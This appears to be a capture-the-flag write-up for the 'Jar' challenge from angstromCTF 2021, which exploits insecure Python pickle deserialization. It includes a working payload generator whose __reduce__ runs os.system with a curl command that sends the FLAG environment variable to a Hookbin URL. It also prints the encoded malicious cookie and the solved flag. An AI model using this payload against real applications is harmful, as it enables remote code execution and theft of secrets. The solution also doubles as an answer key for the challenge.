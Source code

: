 # Jar

## Description

My other pickle challenges seem to be giving you all a hard time, so here's a [simpler one](https://jar.2021.chall.actf.co) to get you warmed up.

[jar.py](jar.py), [pickle.jpg](pickle.jpg), [Dockerfile](Dockerfile)

Hint: The Python [documentation](https://docs.python.org/3/library/pickle.html) for pickle has this big red box... I hope it's not important.

## Solution

In the documentation we find this:

![](img1.png)

By analyzing the code we can see that the flag is in the EV `FLAG`, so we need to inject some code that reads this EV and send it to us somehow 

So let's use [Hookbin](https://hookbin.com) to send the flag back to us and use this [code](https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd) to assemble the cookie we need to pass to the website

```python
import cPickle
import sys
import base64

DEFAULT_COMMAND = "curl -X GET https://hookb.in/####################?$(echo $FLAG)"

COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print(base64.b64encode(cPickle.dumps(PickleRce())))
```

```
contents=Y3Bvc2l4CnN5c3RlbQpwMQooUydjdXJsIC1YIEdFVCBodHRwczovL2hvb2tiLmluL0xnUGd4MHdnbHF1V2trcmF5TzNuPyQoZWNobyAkRkxBRyknCnAyCnRScDMKLg==
```
Going to Hookbin we find this request

![](img2.png)

#### **FLAG >>** `actf{you_got_yourself_out_of_a_pickle}`
